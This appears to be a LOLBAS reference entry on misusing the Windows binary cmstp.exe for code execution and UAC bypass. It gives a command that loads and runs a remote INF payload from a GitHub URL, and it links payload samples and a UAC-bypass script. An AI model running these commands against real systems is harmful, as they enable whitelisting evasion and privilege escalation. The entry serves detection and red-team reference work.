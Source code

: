 ## Cmstp.exe

* Functions: Execute, UACBypass

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf     

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Cmstp.inf     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

Code sample:
* [Cmstp.inf](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Cmstp.inf)    
* [Cmstp_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Cmstp_calc.sct)

Resources:
* https://twitter.com/NickTyrer/status/958450014111633408    
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80     
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
* https://github.com/hfiref0x/UACME

Full path:
```
C:\Windows\system32\cmstp.exe
C:\Windows\sysWOW64\cmstp.exe
```

Notes:



 